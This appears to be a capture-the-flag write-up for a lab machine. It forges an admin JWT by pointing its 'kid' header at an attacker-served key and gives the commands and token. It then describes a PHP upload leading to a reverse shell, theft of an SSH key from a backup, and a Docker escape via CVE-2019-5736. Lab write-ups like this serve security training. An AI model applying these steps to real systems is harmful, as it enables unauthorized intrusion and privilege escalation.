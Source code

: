 ## Info
### Credential
  User   |  Password  | Service  |  Note
---------|------------|----------|--------
admin    |            | Notebook |
noah     |            | System   |
admin    |            | notebook.local |
noah     |            | notebook.local |

## Path
### User
**Get the Admin Permission of the Website**
1. By the error message at the login page, we know `admin` user exist.
2. Found that if we change the `uuid` part in the url, we will get the notes page of the other user. So maybe we can do something with the `uuid`.
3. Found the first part of the `auth` is base64 encoded, and it reveals that the auth token is JWT. Because the `kid` field, which is used to specify the key for validating the signature, is an URI, we can manipulate it to our use.
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly9sb2NhbGhvc3Q6NzA3MC9wcml2S2V5LmtleSJ9.eyJ1c2VybmFtZSI6ImljZTExODciLCJlbWFpbCI6ImljZTExODdAaWNlLmNvbSIsImFkbWluX2NhcCI6ZmFsc2V9.qGYHmp9kTL0ScBHg0ErvlL2sNGBL5qruneYvIjdYnDPmlzd-wxXzNBIg6e_7SprKNaVArhsCAK6wo7n8QmOf87PggTRLPGqArvE5VIE6p1FQ3s7a6X-276zuXNwzmGZi4FLX26mpI_PwgLOLM5vNLbTszsyXeJgVODMBDZZfUfk9-ih2IpVJt6kZYtQT-lcfayfQ2oChE7yWq62Xel1CfInP6_fwg5ylBJAdnNDwv6S5l87rqPOZJAMDaPcvslhUdxUO63NGGdgXOCCB56x-KM6ezgqjnYuyIm6QHUdVGpMKY4M8Leqxhtlo5VHBVu1oVpRVKpc8WUywgm0g_5-LeZ3bb9LDU2PxQuP5I67rJz2edI_O-R8E28R55CItuvQZZ7wVpr2wyS_cDjpGfgywKx-zD83j3Od4a5Yt7l6hVCSAM1QScgUJLhfod7OAflOo_DyMrB387TObhYKdYHhV5VbLdlHTzf7m3TTicmPkJDE7YW6WHWnHGhnk4fL2wkpiHo-EuPy_4PgH10g5KbEuNp0GkgWNZCnNgizEUgrP_L7IpWxVwyvrPk-le_oq70IXPooni4h65_P_bFaugpvuVbqO-YIb7RDPZKYvt6Bvh5IGetdjUuj93q-_WyHi53jYVklG13A_oXFrJspdxdJPqE8Xwq_kop8vNWHAFAqkYFo

{"typ":"JWT","alg":"RS256","kid":"http://localhost:7070/privKey.key"}{"username":"ice1187","email":"ice1187@ice.com","admin_cap":false}
```
4. Create a fake JWT token and change the cookie in the browser to it, then we can get admin permission!
```
$ openssl genrsa -out key 4096
$ openssl rsa -in key -outpub > key.pub
$ python3 jwts.py 
b'eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xMC4xMC4xNi4xMDoxMzMzOC9rZXkucHViIn0.eyJ1c2VybmFtZSI6ImljZTExODciLCJlbWFpbCI6ImljZTExODdAaWNlLmNvbSIsImFkbWluX2NhcCI6dHJ1ZX0.kgCjMWWLvqfdQ7LL4nvoRLshzq-0gHBCAqpr7K-jxpMLKpcSduDTRWGMeUXC7IWCQku8q6k8thZu8mssHwwy1l7EkN2sCvxUgyiUGAkQr3GrWJJdMLVck5XF-gBONIu49UhO3CBnQn_GSMK7WspqeDWqjon7jiBAg33XVSOlPJiH16zkUatFnCFugrxCak1YKbJm3gTYPex4wJbhxmnTGNXNC-ab9iBLsAasiWrI8wSVYg3uKgYOxWMrpIXs1LLK-jPpeSdjg1fx0SpeGEWTctjWx1uPqjIF41POWN7llqZ31VPOpxNpYD8T8mYbT8mKN8QtA6Z2tDLclCU3i5nDHKKp9cXxdMmKruNmXzTJT1Xe-zrbNPp6Vd8hVAoCGb-GLhmDPxCo7I_MGUDTKI5E7vChVckrIXS2yo2yMTHmTysYcEfKfn-XJJd8qHZZpsi9bX7qA4DrI_gBJWhfbyDsS4-WBg6Od-KiTxSRkwDwn4eDSwWp7Fb68I1BYFByRuM82MzeKeYVisPiKjdBUebvwuT0RQxRR-E7ihqr77EQf9n-k1C3MJy2wJabzg-MTZ1y_ohNhlZE0wo1DLqmdVCRi_TekT1-u7G89o45Gm46SPM9qG7oEmwRAvgo27qpK1WfC1JpDWwynPdPxxPmNHKDg46F4GRgsSpBdtWwwU1nrfE'  # put this is the browser
$ python3 -m http.server 13338  # serve key to the server
# Go visit the website again
```

**PHP Reverse Shell**
5. From the admin panel, we can upload php file. So we upload a `cmd.php` to execute command and a `rev.sh`, which is a bash reverse shell. Then we use `cmd.php` to execute `rev.sh` to get reverse shell.

**Get User `noah`**
6. There is a weird file `/var/backups/home.tar.gz`, and it contains the private key of user `noah`. So use the key to login SSH as `noah`.

### Root
1. We can run `docker exec -it webapp01*' with sudo. In the container, we can see the website is connected to SQLite at `/tmp/webapp.db`, since there is no command available but only python library, we use python to connect to it. But only to found nothing interesting.
```
root@54a0b3a1dd9d:/tmp# find / -name sqlite*
/usr/include/sqlite3ext.h
/usr/include/sqlite3.h
/usr/lib/x86_64-linux-gnu/pkgconfig/sqlite3.pc
/usr/lib/python3.7/sqlite3
/usr/lib/python2.7/sqlite3
/usr/lib/python2.7/dist-packages/hgext/sqlitestore.py
/usr/lib/python2.7/dist-packages/hgext/sqlitestore.pyc
/usr/local/lib/python3.8/site-packages/sqlalchemy/dialects/sqlite
/usr/local/lib/python3.8/sqlite3
# python3 
>>> import sqlite3
... 
```
2. Google for Docker Escape, since `gcc` is available in the container, I found CVE-2019-5736 might be useful from this [article](https://teamt5.org/tw/posts/container-escape-101/) and the exploit [here](https://www.openwall.com/lists/oss-security/2019/02/13/3).
3. Modify `bad_init.sh` to execute a reverse shell, then deliver the exploit on to the container and follow the README in the exploit to get gain root.
4. Get flag! 

